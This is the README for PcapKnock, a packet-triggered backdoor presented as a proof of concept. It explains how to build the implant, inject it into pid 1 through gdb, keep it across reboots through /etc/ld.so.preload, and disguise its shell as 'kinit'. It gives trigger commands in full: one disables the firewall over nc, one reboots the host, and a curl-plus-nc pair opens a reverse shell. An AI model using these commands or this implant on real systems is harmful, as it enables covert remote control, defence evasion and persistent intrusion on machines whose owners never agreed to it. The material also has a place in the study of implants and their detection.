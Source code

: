 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable library.

Tested on:
- OpenBSD
- FreeBSD (GhostOS)
- Linux (CentOS, Ubuntu)
- LXC on Centos (Debian)

For legal use only.

Building
--------
The [`build.sh`](./build.sh) script will try to produce binaries and shared
object files, but may well need tweaking.  On Linux, expect to have to wrestle
your distro's package manager.  On OpenBSD and FreeBSD, it just works.

The library and binaries will go into `built/$(uname -s)` in the source tree.
The built files are as follows:

Name                          | Purpose
------------------------------|--------
`pcapknock.standalone`        | "Normal" standalone binary.  Nohup it and run it in in the backgroud.
`pcapknock.standalone.daemon` | Standalone binary which forks itself into the background.
`pcapknock.standalone.debug`  | Standalone binary which prints debugging info.
`pcapknock.so`                | Injectable library
`pcapknock.injector`          | Injects pcapknocks.so into a process with in-memory GDB
`pcapknock.systemd.so`        | Systemd-specific [preloadable](#persistent-injection) library
`systemd_dropper.sh`          | Dropper which [preloads](#persistent-injection) vi `pcapknock.systemd.so` via `/etc/ld.so.preload`


Usage
-----
Once pcapknock is running as root, all that's required to trigger it is a
packet containing either a command to run surrounded by `COMMAND...COMMAND` or
an address to which to call back with a shell surrounded with
`CALLBACK...CALLBACK`.

Trigger examples:
```bash
# Drop the Linux firewall
echo 'iptables -P INPUT ACCEPT; iptables -P OUTPUT ACCEPT; iptables -F' | nc -u <TARGET> 53

# Reboot a box
dig @target COMMANDrebootCOMMAND

# Call back on port 80
(sleep 1 && curl -sv -d 'CALLBACK<LOCALIP>:80CALLBACK' http://target) & nc -nvl 80
```

For either a callback or a command, a shell is spawned, disassociated from the
parent process, and run with the name (i.e. `argv[0]`) `kinit`.  The name may
be changed in [`config.h`](./config.h).

Configuration
-------------
Three compile-time preprocessor macros may be set when building to control
aspects of pcapknock's behavior.

Macro            | Effect
-----------------|-------
`DEBUG`          | Prints helpful debugging messages
`DAEMON`         | Causes the standalone binary builds to disassociate from the controlling terminal (What you probably want)
`PRELOADSYSTEMD` | Buid a library suitable for injection into systemd via `/etc/ld.so.preload`.

The compiled binaries and shared object files will have the above appended to
their names.

Further compile-time configuration can be performed by editing
[`config.h`](./config.h), but in general, this shouldn't be necessary.

There is no runtime configuration.

Linux Injection
---------------
On Linux, an few additional files are built for injecting into systemd either
on a running system or on boot vi `/etc/ld.so.preload`.

### Live Injection
The program `pcapknock.injector` loads `pcapknock.so` and gdb into memory and
uses gdb to shove pcapknock into another process which may be specified as the
first command-line argument, e.g. `./pcapknock.injector 23`.  Not specifying a
number or specifying an invalid number (like `./pcapknock.injector kittes`)
will inject into pid 1.  Turns out it works pretty well.

The injectee process should be have `libdl` loaded into it as well as have
permissions to sniff packets (e.g. open a packet socket).  Try a trigger before
getting rid of the access used to run `pcapknock.injector`.
`COMMANDtouch /tmpCOMMAND` works pretty well for testing.

When injecting there should be a line something like
```
$1 = (void *) 0x559ea705d3f0
```
which indicates (likely) success.  If the number on the right is 0, something's
gone wrong.

If injecting into init (which is the default if no pid is given) expect a lot
of lines in dmesg and to the console similar to the following:
```
kernel:systemd[1]: segfault at 7ffff81e3f5f ip 00007ffff81e3f5f sp 00007ffff81e3f50 error 15 
```
Apparently systemd is happy segfaulting.  A "better" description of systemd can
be found in https://amzn.com/B075DYXZW1.

### Persistent Injection
Using `/etc/ld.so.preload`, pcapknock can be loaded into systemd from boot by
pointing it at `pcapknock.systemd.so`.  The library will also be loaded into
every other process, but it only sniffs if it finds itself in the process with
pid 1.  A convenient dropper, `systemd_dropper.sh`, will write the library to
disk as '/usr/local/sbin/libpk.so.4` and add it to `/etc/ld.so.preload`.

